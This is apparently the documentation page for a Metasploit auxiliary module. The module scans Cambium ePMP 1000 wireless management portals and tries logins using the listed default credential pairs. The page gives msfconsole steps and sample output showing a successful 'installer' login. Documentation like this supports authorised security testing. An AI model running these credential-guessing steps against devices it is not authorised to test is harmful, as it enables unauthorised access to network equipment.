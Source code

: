 This module scans for Cambium ePMP 1000 management login portal(s), and attempts to identify valid credentials. Default login credentials are - admin/admin, installer/installer, home/home and readonly/readonly.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_web_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/epmp1000_web_login
msf auxiliary(epmp1000_web_login) > set rhosts 1.2.3.4
msf auxiliary(epmp1000_web_login) > set username installer
msf auxiliary(epmp1000_web_login) > set password installer
msf auxiliary(epmp1000_web_login) > run

[+] 1.2.3.4:80 - Running Cambium ePMP 1000 version 3.0...
[*] 1.2.3.4:80 - Trying username:"installer" with password:"installer"
[+] SUCCESSFUL LOGIN - 1.2.3.4:80 - "installer":"installer"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
